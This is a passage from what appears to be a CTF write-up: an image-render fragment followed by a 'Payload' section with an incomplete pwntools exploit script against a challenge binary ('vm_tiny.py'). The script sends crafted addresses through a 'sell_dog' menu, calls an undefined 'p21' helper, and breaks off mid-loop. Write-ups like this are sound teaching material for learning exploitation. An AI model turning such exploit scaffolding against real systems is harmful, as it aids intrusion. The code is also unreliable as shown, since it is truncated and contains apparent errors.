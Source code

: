 ``` python
            log.info(f"farming...")
            move(s, b"d")
        move(s, b"s")
    move(s, b"w")
    move(s, b"w")
    move(s, b"w")
    move(s, b"a")
```

## 0x03. Payload
``` python
from pwn import *
from pwnlib.util.packing import p32, p64, u32, u64
from gameboxlib import *
from time import sleep
import sys

BINARY = "./vm_tiny.py"

bp = {
    'read_of_sell_dog' : 0x341,
    'direction_help' : 0xbf,
}
context.terminal = ['tmux', 'splitw', '-hf']

def set_bp(s, addr):
    s.recv()
    s.sendline(f"b {hex(addr)}".encode())
    sleep(0.1)
    s.sendline(b"c")
    return s.recv()

def buy_dog(s, draw, avatar=""):
    s.sendline(b"2")
    print(s.recvuntil(b">").decode())
    s.sendline(draw)
    if draw == b'y':
        s.sendline(avatar)
    return s.recvuntil(b">")

def sell_dog(s, addr):
    s.sendline(b"3")
    s.recvuntil(b">")
    if type(addr) == bytes:
        s.sendline(addr)
    else:
        s.sendline(p21(addr))
    return s.recvuntil(b">")

def move(s, direction):
    s.sendline(direction)
    return s.recvuntil(b">")

def main():
    if(len(sys.argv) > 1):
        s = remote("localhost", int(sys.argv[1]))
    else:
        s = process(BINARY)
        print(set_bp(s, bp['direction_help']).decode())
    s.recvuntil(b">")

    for i in range(0xfa):
```